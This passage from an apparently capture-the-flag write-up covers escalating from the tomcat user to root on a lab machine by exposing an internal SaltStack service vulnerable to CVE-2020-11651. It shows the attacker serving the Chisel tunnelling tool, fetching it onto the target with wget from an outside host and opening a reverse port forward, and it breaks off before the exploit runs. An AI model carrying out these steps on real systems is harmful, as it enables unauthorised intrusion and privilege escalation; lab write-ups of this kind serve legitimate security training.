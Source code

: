 ```shell
tomcat@VirusBucket:~$ cd /home/tomcat
tomcat@VirusBucket:~$ ls
user.txt
```

## Elevating privilige: tomcat -> root

### Enumeration

runing `netstat` reveals some intrnal ports.

```shell
netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:4505          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:37433         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:4506          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN     
tcp6       0      0 :::8080                 :::*                    LISTEN 
```
the two ports `4505 and 4506` caught my eyes .so i google to find out
what these port used for by default.[**Here**](https://docs.saltstack.com/en/latest/topics/tutorials/firewall.html) i found port 4505 and 4506 are saltstack.and  i found the [**poc**](https://github.com/jasperla/CVE-2020-11651-poc)for CVE-2020-11651.

### POC exploit

  we need to fordward port 4506 and exploit it on our machine as we need `salt` python module which is not installed on target machine.let transfer [**Chisel**](https://github.com/jpillora/chisel/releases) to target machine.

  `start the server from chisel directory`

```shell
  ┌─[oxy@oxy]─[~/tools]
  └──╼ $python3 -m http.server 4321
        Serving HTTP on 0.0.0.0 port 4321 (http://0.0.0.0:4321/)
```
  ```shell
  ┌─[oxy@oxy]─[~/tools]
  └──╼ $python3 -m http.server 4321
        Serving HTTP on 0.0.0.0 port 4321 (http://0.0.0.0:4321/)
        ```

   `download chisel on target box and forward port 4506`
```shell
  tomcat@VirusBucket$ cd /dev/shm
 tomcat@VirusBucket:/dev/shm$ wget http://10.10.14.68:4321/chisel                   
 tomcat@VirusBucket:/dev/shm$ chmod +x chisel
 tomcat@VirusBucket:/dev/shm$ ./chisel client 10.10.14.68:1234 R:4506:127.0.0.1:4506
 2020/10/05 10:42:15 client: Connecting to ws://10.10.14.68:1234
 2020/10/05 10:42:17 client: Fingerprint f4:f2:94:8a:42:4c:14:41:93:e7:3a:30:96:52:74:99
 2020/10/05 10:42:18 client: Connected (Latency 309.19257ms)
 ```
  